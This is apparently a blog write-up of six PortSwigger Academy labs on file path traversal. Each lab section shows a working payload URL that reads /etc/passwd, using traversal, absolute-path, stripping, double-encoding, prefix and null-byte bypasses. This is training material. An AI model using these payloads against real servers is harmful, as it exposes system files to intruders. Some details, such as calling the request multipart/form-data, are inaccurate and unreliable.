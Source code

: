 # Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), simple case

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

To solve the lab, retrieve the contents of the `/etc/passwd` file.


we start by accessing the page source code and copied the path to the image file:


```http
https://0a36005e034cede280fe3198000b00f4.web-security-academy.net/image?filename=48.jpg
```

we now modify this link to the path of `/etc/passwd` :

```http
https://0a36005e034cede280fe3198000b00f4.web-security-academy.net/image?filename=/../../../etc/passwd
```

and we solved the lab:


![1695712761088.png](https://Cyberguru1.github.io/posts/portswigger/dir_trav/images/1695712761088.png)



# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), traversal sequences blocked with absolute path bypass


This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images. supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the `/etc/passwd` file.


Accessing the challenge link; we try fuzzing for the directory traversal vulnerability as done earlier in the first lab

we copy the address of one of the images and editted it as follows:

```http
https://0ad1000e03af75ed84db10bf006600f6.web-security-academy.net/image?filename=/etc/passwd
```

we use the absolute file path to access the etc/passd file and solved the lab:

![1695715319507.png](https://Cyberguru1.github.io/posts/portswigger/dir_trav/images/1695715319507.png)




# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), traversal sequences stripped non-recursively

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

After fuzzing we use the following link to access the /etc/passwd file

```http
https://0a200069044e71f880564996008f0009.web-security-academy.net/image?filename=....//....//....//....//etc/passwd
```

as you could see, we added `....//` at the beginning of each traversal, this is done to bypass the stripping of the traversal sequences. These revert to simple traversal sequences when the inner sequence is stripped.

sending this request solves the lab:

![1695715831462.png](https://Cyberguru1.github.io/posts/portswigger/dir_trav/images/1695715831462.png)


# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), traversal sequences stripped with superfluous URL-decode


This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

In this challenge we tend to bpyass the stripping of traversal in the web server in a multipart/form-data request to it.

bypassing this kind of sanitization by URL encoding, or even double URL encoding, the `../` characters. This results in `%2e%2e%2f` and `%252e%252e%252f` respectively. Various non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`, may also work.

we used the second option of encoding the traversal in this lab we use the following:

```http
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
```

this is simply the traversal payload we have been using in the previous lab url-encoded twice, decoding it twice gives us back the payload:

 ![1695716524822.png](https://Cyberguru1.github.io/posts/portswigger/dir_trav/images/1695716524822.png)



we send this request in burp:

 ![1695716550939.png](https://Cyberguru1.github.io/posts/portswigger/dir_trav/images/1695716550939.png)

and we got the following response:

 ![1695716595099.png](https://Cyberguru1.github.io/posts/portswigger/dir_trav/images/1695716595099.png)

And we solved the lab:

 ![1695716627989.png](https://Cyberguru1.github.io/posts/portswigger/dir_trav/images/1695716627989.png)




# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), validation of start of path

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

This lab talks about the validation of the start path where the server fetchs the image content from, to solve this lab we simply traverse out of this lab and access the passwd file using the following payload:

```http
https://0a0b004103a4630d803ed106005f00c2.web-security-academy.net/image?filename=/var/www/images/../../../../../etc/passwd
```

sending this request solves the lab:

 ![1695716925240.png](https://Cyberguru1.github.io/posts/portswigger/dir_trav/images/1695716925240.png)


# Lab: [File path traversal](https://portswigger.net/web-security/file-path-traversal), validation of file extension with null byte bypass

This lab contains a [path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application validates that the supplied filename ends with the expected file extension.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

In this lab, our aim is to bypass the extension added at the end of the file name in this case the .png extension added by default, the trick here is to use the null byte to escape it so as to retain the filename, we use the url encoded null byte `%00` and append it at the end of our filename including the .png extension: 

```http
https://0a2800b70336a269800ed0a20025001c.web-security-academy.net/image?filename=../../../../../etc/passwd%00.png
```

sending this request solves the lab:

 ![1695717283024.png](https://Cyberguru1.github.io/posts/portswigger/dir_trav/images/1695717283024.png)



And that's the end of the path travesal labs on portswigger!!!!
